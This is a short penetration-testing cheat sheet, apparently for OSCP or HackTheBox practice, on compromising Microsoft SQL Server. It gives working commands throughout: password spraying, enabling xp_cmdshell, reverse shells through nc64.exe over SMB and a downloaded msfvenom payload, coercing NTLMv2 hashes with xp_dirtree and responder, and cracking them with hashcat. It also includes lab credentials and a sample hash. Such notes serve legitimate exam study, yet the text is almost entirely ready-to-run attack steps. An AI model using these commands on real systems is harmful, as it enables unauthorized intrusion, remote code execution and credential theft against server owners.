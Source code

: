 Port 1433

spray:
```
nxc mssql 10.10.159.148 -u sql_svc -p Dolphin1 -x whoami
```

shell
```
mssqlclient.py -windows-auth oscp.exam/sql_svc:'Dolphin1'@10.10.159.148
```
- also try without `-windows-auth`

once connected to SQL, try enabling xp_cmdshell to run commands:
SQL> 
```
use master
```
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] INFO(MS02\SQLEXPRESS): Line 1: Changed database context to 'master'.
SQL> 
```
sp_configure 'show advanced options', '1'
```
[*] INFO(MS02\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> 
```
RECONFIGURE
```
SQL> 
```
sp_configure 'xp_cmdshell', '1'
```
[*] INFO(MS02\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> 
```
RECONFIGURE
```
SQL> 
```
EXEC master..xp_cmdshell 'whoami'
```
- shows response under output
Shell with nc64:
- put nc64.exe in current linux directory and start smbserver:
```
smbserver.py test . -smb2support
```
- start listener:
```
rlwrap -cAr nc -lvnp 443
```
- run command from mssql:
```
xp_cmdshell \\10.10.14.169\test\nc64.exe -e cmd.exe 10.10.14.169 443
```
- should catch shell with listener

Alt path for shell once xp_cmdshell if enabled:
- generate shell payload with msfvenom:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.126.147 LPORT=1234 -f exe -o payload_1234.exe
```
- run two commands from mssql SQL >
```
exec xp_cmdshell "powershell -c iwr -uri http://10.10.126.147:83/payload_1234.exe -Outfile c:\windows\temp\payload_1234.exe"
```
```
exec xp_cmdshell "powershell -c c:\windows\temp\payload_1234.exe"
```

if no xp_cmdshell permissions, try xp_dirtree & impacket smbserver:
```
smbserver.py test . -smb2support
```
SQL> `EXEC xp_dirtree '\\<kali.ip>\test', 1, 1`
- will see user hash in smbserver.py
- can also use responder
	- `sudo responder -I tun0 `
- to crack ntlmv2 hash, copy entire hash, starting with first letter and run:
	- `hashcat -m 5600 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt`
	- example hash to save in hashes.txt:
`DC01$::MANAGER:aaaaaaaaaaaaaaaa:a449be48471697e29e12179c8b3f4a4b:01010000000000008075a48fc5c5da011cc09eeab02291ec0000000001001000420044005600740068006b004b006c0003001000420044005600740068006b004b006c000200100063004e004200640050006700620064000400100063004e00420064005000670062006400070008008075a48fc5c5da01060004000200000008003000300000000000000000000000003000001b8f515b7210704c5914dd1d2d8ae1436fa4c997960b22794c47bffdbd369bdf0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00330030000000000000000000`

SQL> `enum_db`
- will show databases
- master, tempdb, model, and msdb are all default

SQL>`xp_dirtree C:\`
- see filesystem
- if the machine also has port 80 open, check C:\inetpub\wwwroot for any files/pages not obviously accesible from website. than grab it with:
	- `wget http://manager.htb/website-backup-27-07-23-old.zip`

